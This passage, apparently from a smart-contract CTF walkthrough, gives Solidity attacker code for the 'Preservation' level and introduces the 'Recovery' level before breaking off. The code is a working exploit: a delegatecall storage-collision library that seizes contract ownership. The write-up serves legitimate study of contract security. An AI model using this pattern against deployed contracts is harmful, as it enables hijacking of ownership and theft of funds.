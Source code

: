 import '@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol';

import "hardhat/console.sol";

interface IPreservation {
    function setFirstTime(uint _timeStamp) external;
}

// this one will be called by delegatecall
contract PreservationAttackerLib {
    // needs same storage layout as Preservation, i.e.,
    // we want owner at slot index 2
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 _time) public {
        owner = tx.origin;
    }
}

contract PreservationAttacker {
    IPreservation public challenge;
    PreservationAttackerLib public detour;

    constructor(address challengeAddress) public {
        challenge = IPreservation(challengeAddress);
        detour = new PreservationAttackerLib();
    }

    function attack() external {
      // 1. change the library address to our evil detour lib
      // this works because their LibraryContract is invoked using delegatecall
      // which executes in challenge contract's context (uses same storage)
      challenge.setFirstTime(uint256(address(detour)));

      // 2. now make challenge contract call setTime function of our detour
      challenge.setFirstTime(0);
    }
}
```


## Recovery
Difficulty 6/10

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.5 ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the 0.5 ether from the lost contract address.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
